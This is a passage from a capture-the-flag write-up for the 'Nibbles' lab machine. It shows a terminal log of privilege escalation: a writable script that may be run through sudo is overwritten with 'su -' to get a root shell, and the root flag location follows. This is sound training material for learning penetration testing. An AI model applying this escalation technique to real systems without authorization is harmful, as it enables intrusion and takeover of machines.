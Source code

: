 I saw that `root` has the ability to run `monitor.sh` without needing to type in a password. Given the permissions `monitor.sh` has, we can execute arbitrary bash commands as `root`.

```
nibbler@Nibbles:/home/nibbler$ echo "whoami" > /home/nibbler/personal/stuff/monitor.sh
<er$ echo "whoami" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
<er$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
root
nibbler@Nibbles:/home/nibbler$ echo "su -" > /home/nibbler/personal/stuff/monitor.sh
<er$ echo "su -" > /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
<er$ sudo -u root /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:~#
```

The flag is in directory `/root/root.txt`.
